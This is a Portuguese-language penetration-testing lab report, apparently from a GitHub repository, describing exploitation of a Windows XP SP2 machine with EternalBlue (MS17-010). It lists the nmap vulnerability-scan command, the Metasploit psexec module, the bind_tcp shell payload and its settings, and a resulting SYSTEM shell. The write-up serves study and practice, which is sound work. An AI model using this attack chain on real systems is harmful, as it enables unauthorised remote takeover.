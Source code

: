 # windows-xp-sp2-
> 🚨 AVISO: Este relatório é feito em ambiente controlado para fins educacionais e laboratoriais. Nenhuma ação foi realizada contra sistemas reais.
/windows-xp-ms17-010/
===============================
💣 RELATÓRIO DE EXPLORAÇÃO - MS17-010 (EternalBlue)
===============================

Autor: [Seu Nome Hacker]

Data: 2025-04-04

---------------------------
🔍 Fase 1 - Reconhecimento
---------------------------

Máquina Alvo: Windows XP SP2
IP da Máquina Alvo: 192.168.0.112
IP da Máquina Atacante (Kali): 192.168.0.103

Comando Nmap usado:
nmap -sV -p- --script vuln -O 192.168.0.112

Serviços Descobertos:
- Porta 445 - Serviço SMB - Possivelmente vulnerável a MS17-010

Vulnerabilidade encontrada:
- MS17-010 (EternalBlue)
- Falha crítica no SMBv1 que permite execução remota de código como SYSTEM.

---------------------------
🎯 Fase 2 - Exploração
---------------------------

Exploit utilizado:
exploit/windows/smb/ms17_010_psexec

Payload utilizado:
windows/shell/bind_tcp

Configurações:
- set RHOST: 192.168.0.112
- set LHOST:
- set LPORT: 4444

Resultado da exploração:
✅ Shell acessada com sucesso via bind_tcp
🧑‍💻 Acesso como: SYSTEM
📡 Comunicação ativa: 192.168.0.112:4444


Shell Banner:
Microsoft Windows XP [Version 5.1.2600]

---------------------------
🛠️ Comandos executados:
---------------------------

- `dir` para listar arquivos
- Shell totalmente funcional dentro de `C:\WINDOWS\system32`

===============================
📜 Comentários Finais:
===============================

Essa exploração marca o meu segundo acesso real a um sistema vulnerável usando técnicas de pentest ofensivo.
A falha MS17-010 é uma das mais notórias da história da segurança da informação.
Executar esse ataque com sucesso reforça minha confiança e mostra que o estudo, prática e curiosidade são as verdadeiras armas do hacker ético.



^G Ajuda         ^O Gravar        ^F Onde está?    ^K Recortar      ^T Executar      ^C Local     
